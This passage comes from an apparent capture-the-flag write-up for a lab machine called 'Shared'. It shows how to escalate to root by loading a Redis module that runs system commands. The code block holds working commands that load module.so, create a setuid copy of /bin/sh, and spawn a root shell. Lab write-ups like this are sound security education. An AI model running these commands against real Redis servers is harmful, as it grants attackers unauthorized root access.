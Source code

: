 One method is to load a special shared object file using `MODULE LOAD` query. We can build the shared object from [this source code](https://github.com/n0b0dyCN/RedisModules-ExecuteCommand) on the attacker machine, then copy `module.so`{:.filepath} to the target.

```bash
# james_mason@shared.htb (SSH)
command="cp /bin/sh /root_sh;chmod a+xs /root_sh"
redis-cli -a "$password" MODULE LOAD ~/module.so &&
	redis-cli -a "$password" system.exec "$command"
/root_sh -p
```
{:.nolineno}

Running this should land us a shell as root where the last flag can be found at `/root/root.txt`{:.filepath}